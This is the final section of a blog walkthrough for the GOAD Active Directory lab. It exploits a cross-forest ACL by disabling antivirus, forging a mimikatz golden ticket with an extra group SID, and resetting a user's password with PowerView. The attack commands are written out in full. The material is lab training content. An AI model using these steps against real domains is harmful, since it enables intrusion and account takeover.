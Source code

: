- Ok now imagine we want to exploit this acl from essos:

![trust_external_acl.png](/assets/blog/GOAD/trust_external_acl.png)

> By now i didn't found a nice way to do this from linux, but from windows it is pretty easy

- Connect as administrator on meereen, disable the antivrius to be able to use mimikatz and powerview
- Create the golden ticket with mimikatz matching the group kingsguard (RID 1130)

```
mimikatz # kerberos::golden /user:guard /domain:essos.local /sid:S-1-5-21-2203133648-1386395927-1390703624 /krbtgt:e58cf01ba6cc645da9f7ab1f28fc3934 /sids:S-1-5-21-1409754491-4246775990-3914137275-1130 /ptt
```

![trust_acl_mimi.png](/assets/blog/GOAD/trust_acl_mimi.png)

![trust_acl_golentgt.png](/assets/blog/GOAD/trust_acl_golentgt.png)

- And now use powerview to change stannis password

```
Import-Module .\powerview.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity stannis.baratheon -AccountPassword $SecPassword -Domain sevenkingdoms.local
```

![trust_acl_changepassword.png](/assets/blog/GOAD/trust_acl_changepassword.png)


- And it work !

![trust_acl_changepassword_cme.png](/assets/blog/GOAD/trust_acl_changepassword_cme.png)

- And if we look at the created tickets with klist:
  - Server: krbtgt/essos.local @ essos.local (golden ticket)
  - Server: krbtgt/SEVENKINGDOMS.LOCAL @ ESSOS.LOCAL (kdc: meereen) (tgt inter realm)
  - Server: ldap/kingslanding.sevenkingdoms.local @ SEVENKINGDOMS.LOCAL (kdc: kingslanding)
  - Server: ldap/kingslanding.sevenkingdoms.local/sevenkingdoms.local @ SEVENKINGDOMS.LOCAL (kdc: kingslanding) 

# The end - Winter is coming

- The GOAD's writeups series end with this part. If you read all you are very brave and i hope you enjoyed it despite my terrible english ^^
- I also hope you gived a try to the lab and all is working fine on your computer.
- For the next year i have other evolution of the lab, blog post ideas and projects in mind, you will see it on twitter (@M4yFly) when something new will come.
- Again thank you to all the security researchers and opensource contributors for all the work and share they do !

# Resources
